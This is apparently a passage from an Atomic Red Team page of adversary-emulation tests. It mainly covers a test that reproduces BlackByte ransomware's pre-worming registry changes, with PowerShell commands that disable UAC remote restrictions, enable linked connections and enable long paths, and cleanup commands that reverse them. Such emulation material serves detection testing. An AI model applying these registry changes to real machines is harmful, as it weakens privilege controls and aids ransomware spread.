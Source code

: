 #### Cleanup Commands:
```cmd
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v LocalAccountTokenFilterPolicy /f >nul 2>&1
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLinkedConnections /f >nul 2>&1
reg delete HKLM\SYSTEM\CurrentControlSet\Control\FileSystem\ /v LongPathsEnabled /f >nul 2>&1
```





<br/>
<br/>

## Atomic Test #8 - BlackByte Ransomware Registry Changes - Powershell
This task recreates the steps taken by BlackByte ransomware before it worms to other machines via Powershell.  See "Preparing to Worm" section: https://redcanary.com/blog/blackbyte-ransomware/
The steps are as follows:
<ol>
    <li>1. Elevate Local Privilege by disabling UAC Remote Restrictions</li>
    <li>2. Enable OS to share network connections between different privilege levels</li>
    <li>3. Enable long path values for file paths, names, and namespaces to ensure encryption of all file names and paths</li>
</ol>
The registry keys and their respective values will be created upon successful execution.

**Supported Platforms:** Windows


**auto_generated_guid:** 0b79c06f-c788-44a2-8630-d69051f1123d






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
New-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -PropertyType DWord -Value 1 -Force
New-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLinkedConnections -PropertyType DWord -Value 1 -Force
New-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\FileSystem" -Name LongPathsEnabled -PropertyType DWord -Value 1 -Force
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name LocalAccountTokenFilterPolicy -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name EnableLinkedConnections -Force -ErrorAction Ignore
Remove-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\FileSystem" -Name LongPathsEnabled -Force -ErrorAction Ignore
```
